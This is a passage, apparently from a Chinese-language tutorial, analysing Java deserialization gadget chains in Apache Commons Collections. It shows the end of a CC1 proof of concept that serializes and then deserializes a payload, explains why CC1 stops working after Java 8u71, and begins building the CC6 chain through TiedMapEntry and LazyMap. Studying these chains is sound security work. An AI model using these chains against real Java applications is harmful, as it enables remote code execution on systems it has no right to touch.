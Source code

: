 ```Java


        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler1);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        ois.readObject();
    }
}
```

### 限制

CC1在Java 8u71以后利用不了，在于AnnotationInvocationHandler#readObject()的代码逻辑发生变化：

```Java
private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        GetField var2 = var1.readFields();
        Class var3 = (Class)var2.get("type", (Object)null);
        Map var4 = (Map)var2.get("memberValues", (Object)null);
       ...
}
```

直接以"memberValues"这个持久字段名称来获取对应的值，没有了this.memberValues#entrySet()，无法将memberValues设置成代理类，通过做动态代理触发到LazyMap#get()，就没有了后边的触发调用。

所以CC1在高版本Java会出现限制。于是希望找到一个更通用一点的链，无JDK版本限制，比如CC6。

## CommonsCollections 6

### 测试环境

- JDK 1.8 （随意无限制
- Commons Collections 3.1

### 利用链

后半段链和CC1一样，重点关注**如何触发LazyMap#get()**

### 重构POC

直接对前半段链分析

org.apache.commons.collections.keyvalue.TiedMapEntry

```java 
public class TiedMapEntry implements Entry, KeyValue, Serializable {
  ...
   private final Map map;
   public TiedMapEntry(Map map, Object key) {
        this.map = map;
        this.key = key;
    }
    
  public int hashCode() {
        Object value = this.getValue();  // here
        return (this.getKey() == null ? 0 : this.getKey().hashCode()) ^ (value == null ? 0 : value.hashCode());
    }
  
  public Object getValue() {
        return this.map.get(this.key); // here
```